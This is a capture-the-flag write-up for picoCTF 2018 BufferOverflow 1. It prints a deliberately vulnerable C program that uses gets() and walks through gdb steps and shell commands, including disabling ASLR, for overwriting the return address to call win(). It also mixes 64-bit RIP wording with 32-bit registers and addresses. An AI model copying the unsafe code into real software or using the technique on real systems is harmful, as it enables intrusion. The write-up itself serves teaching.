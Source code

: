 #  picoCTF 2018 - BufferOverflow 1

Binary Exploitation is a broad topic within Cyber Security that comes down to finding a vulnerability in a program and exploiting it to gain control of a shell or modify the program’s functions.

My approach to solving buffer overflow binary exploitation problems is to follow a three-step approach. Understand the code, understand the output, and finally manipulate the output. First, it is very important to pay attention to the source code. The main idea of secure programming is to pay attention to how you code. One mistake by a programmer can cause unforeseen damage. So, before we run the code in a sandboxed environment, we will inspect the code visually.

## Source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

---

## Analysis
This program is using a vulnerable C function, gets(). gets() is a vulnerable function in the C library which does not do bounds checking. gets() was also removed from the C11 standard. The late gets function was considered to be dangerous because no matter how large the buffer is, an attacker can just make the input string longer than the buffer, forcing a buffer overflow.

We can use it to perform a buffer overflow exploitation. The win() is responsible for displaying the flag but it is not called in the main function. So, we will fill the buffer and pass the address of the win() function, inside the RIP register.

---

## Trying to control the RIP register using the insecure gets() function

**Step 1:** Disable ASLR
```
sudo sysctl kernel.randomize_va_space=0
```

**Step 2:** Compile the program
```
gcc -m64 -g -z execstack -fno-stack-protector -no-pie vuln.c -o vuln
```

**Step 3:** Run the program through gdb
```
gdb ./vuln
```

**Step 4:** Configure gdb and run
Set the disassembly syntax to intel
```
set disassembly-flavor intel
```
Set a breakpoint at main and run
```
b main
run
```

**Step 4:** Find the address of the win() function
```
info functions
```
![image1](images/21.png)

We can see that the address of the win() function is at 0x080485cb

**Step 5:** Find the start of the buffer
Since the user input is taken from inside the vuln() function, we have to step in (use commmand: si) when we reach the function in the gdb

![image2](images/22.png)
![image3](images/23.png)

```
print $ebp-0x28
```

**Step 6:** Find the length of the buffer until we reach the start of the RIP
Go to the ret syscall

![image4](images/24.png)

```
print (long) $esp - 0xffffd0a0
```

**Step 7:** Write the python code.

![image5](images/25.png)

**Step 8:** Exploitation
Compile: 
```
python3 exploit.py
```

Execute:

The following command will use the contents of the exploit file as the command-line argument for the vulnerable program. 
```
(cat ./exploit; cat -) | ./vuln
```

![image6](images/26.png)
